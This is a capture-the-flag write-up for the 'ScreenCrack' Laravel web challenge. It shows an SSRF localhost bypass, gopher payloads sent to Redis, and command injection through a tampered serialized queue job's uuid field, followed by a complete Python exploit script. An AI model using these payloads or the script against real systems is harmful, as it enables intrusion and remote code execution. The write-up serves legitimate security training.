




---
tags:
  - web
---

# ScreenCrack

## Challenge description

New screenshot service just dropped! They talk alot but can they hack it?

## Solution

### First recon

Our flag is in a file in the application directory.

We have a **Laravel 10.6.2** application runing which homepage said:

**Users can view screenshots and the source code of any entered URL using the free web service ScreenCrack. To protect user privacy, our service deletes all screenshots and source files. Our primary goal is to protect users from malicious, shady, and fraudulent links.**



We can pass an URL. Let's take a look what we can do with it.

We have two options linked to two different api endpoints:

- `/api/getss` - Get the URL screenshot using the web **"https://api.screenshotmachine.com/?key=6b76b2&dimension=1024x768&url=".$url** and creates a temporally png file with a random name inside **/www/public/ss/** path
- `/api/get-html` - Made a request to the URL, read the response and add a txt file with page content inside **/www/public/src/** path and render inside a iframe

Additionally there is a job that delete generated files after some time using the next code.

```php
public function deleteFile()
{
    $filepath = $this->buildFilePath();
    system("echo '".$this->uuid."'>>halo");
    system("rm ".$filepath);
}
```

In local we can see the uuids removed by the job.



**Important:** All URLs are validated before send the request, so local URL aren't permited.

We have also a local Redis application up and running. Feels like we need to make some [SSRF](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#basic-information) tricks to communicate with Redis service.

### Localhost Bypass

I tried using HackTricks urls to bypass localhost but nothing helps.

After a while I found that some public domains resolves to 127.0.0.1 [Available Public Wildcard DNS Domains pointing to localhost (127.0.0.1)](https://gist.github.com/tinogomes/c425aa2a56d289f16a1f4fcb8a65ea65).
And using `fbi.com` as domain we get access to local application.



Let's try to communicate with Redis service.

### Redis RCE

Looking how to communicate with redis service through SSRF we can found multiple post that use the `gopher` schema. If we test the INFO command of redis with the URL `gopher://fbi.com:6379/_%0D%0AINFO%0D%0Aquit%0D%0A` we received the response of Redis:

```
...
# Server
redis_version:7.0.15
redis_git_sha1:8cceef4b
redis_git_dirty:0
redis_build_id:b445ae7ca70219e7
redis_mode:standalone
os:Linux 6.8.11-arm64 aarch64
arch_bits:64
...
```

And using this python script we can create payloads sending to Redis and try to get our flag using some [LFI](https://book.hacktricks.xyz/pentesting-web/file-inclusion#file-inclusion) technique.

```python
redis_cmd = """
INFO server
quit
"""
gopherPayload = "gopher://fbi.com:6379/_%s" % redis_cmd.replace('\r','').replace('\n','%0D%0A').replace(' ','%20')

print(gopherPayload)
```

I tried to use Redis to create a PHP webshell like [https://book.hacktricks.xyz/pentesting-web/file-inclusion#file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion#file-inclusion) but we can't do this because Redis thrown error because `dir` and `dbfilename` config parameters cannot be changed.

Looking in the official forum discussion someone says that we need to use the Redis key values generated by Laravel application. If we check the values of the keys generated by the application, we found that the key values are the instances of `App/Jobs/rmFile`, including the properties.

```
{"uuid":"e65cb62f-5b72-4e6b-9cfd-5c2b91eaf47f","displayName":"App\\Jobs\\rmFile","job":"Illuminate\\Queue\\CallQueuedHandler@call","maxTries":null,"maxExceptions":null,"failOnTimeout":false,"backoff":null,"timeout":null,"retryUntil":null,"data":{"commandName":"App\\Jobs\\rmFile","command":"O:15:\"App\\Jobs\\rmFile\":1:{s:9:\"fileQueue\";O:21:\"App\\Message\\FileQueue\":3:{s:8:\"filePath\";s:45:\"\/src\/f046b9ac-710b-426d-bb21-d08669b3c96d.txt\";s:4:\"uuid\";s:36:\"f046b9ac-710b-426d-bb21-d08669b3c96d\";s:3:\"ext\";s:3:\"txt\";}}"},"id":"OyW8xxRT4ydRNEXlRhNDdpSDOoeoEtyH","attempts":0}
```

🤔 What if we change the uuid value to made a RCE excecution when app excetute `echo` command that we see previously. And yes, it worked.



So, let's try to read the content of the flag exposed in a public directory, using the code `;mv /flag /www/public/src/flag.txt;echo` we can archieve it.

### Exploit

```python
#!/usr/bin/python3

import requests
import re
import time

HOST = 'http://94.237.62.79:46267'

try_again = False

cookies = {'laravel_session': 'eyJpdiI6IjFEck5qN2tqam9TSERHRThtZXdFY0E9PSIsInZhbHVlIjoiV3hpRWwraTBGWDI1bThBZHRFSU4wOGxDbkt4VnJNdStTUFQrSGMxZGE3MEN5eWVGMVluNm5EZHNCaTJWNmxFY2JOR3Brc1p6dURCNmg2OHRCbFI2UkZUS1Y2OHA0Zmx4U0ZSbXVtMkRVZkRKTFI3bWxPUjRINU9sSU83Q21obnMiLCJtYWMiOiJmODVmZDZjNzczZTBlOGU1OGUwM2QyY2RhZTBmMTBhZWQ5NmE4ODMyMGE0NWQyZTA4OWNjYzJiNGUyNjE0MGE4IiwidGFnIjoiIn0%3D'}


def send_redis_cmd(cmd):
    gopherPayload = "gopher://fbi.com:6379/_%s" % cmd.replace(
        '\r', '').replace('\n', '%0D%0A').replace(' ', '%20')

    res = requests.post(f'{HOST}/api/get-html',
                        json={'site': gopherPayload},
                        headers={'Content-Type': 'applcation/json'},
                        cookies=cookies
                        )
    response = res.json()
    txt_file = response['filename']

    return requests.get(f'{HOST}{txt_file}', cookies=cookies)


redis_cmd = """
rpop laravel_database_queues:default
quit
"""

res = send_redis_cmd(redis_cmd)

convertedInstance = None
try:
    code_to_exec = ';mv /flag /www/public/src/flag.txt;echo Done'
    instance_re = re.compile(r'({"uuid".*:0})')
    uuid_re = re.compile(
        r's:36:\\"[0-9a-f]{8}-[0-9a-f]{4}-[0-5][0-9a-f]{3}-[089ab][0-9a-f]{3}-[0-9a-f]{12}\\"')
    rmInstance = re.search(instance_re, res.text).group(0)
    convertedInstance = re.sub(
        uuid_re,
        f's:{len(code_to_exec)}:\\"{code_to_exec}\\"',
        rmInstance)
except:
    print("No instance saved. Try again")
    try_again = True

redis_replace_cmd = f"""
lpush laravel_database_queues:default '{convertedInstance}'
lrange laravel_database_queues:default 0 10
quit
"""

if convertedInstance is not None:
    res = send_redis_cmd(redis_replace_cmd)
else:
    print("Try again")
    try_again = True

print("Done. Waiting the cronjob...")

if not try_again:
    while True:
        print("Trying get flag value")
        r = requests.get(f'{HOST}/src/flag.txt', cookies=cookies)
        if r.status_code != 404:
            print(r.text)
            break
        time.sleep(60)

```
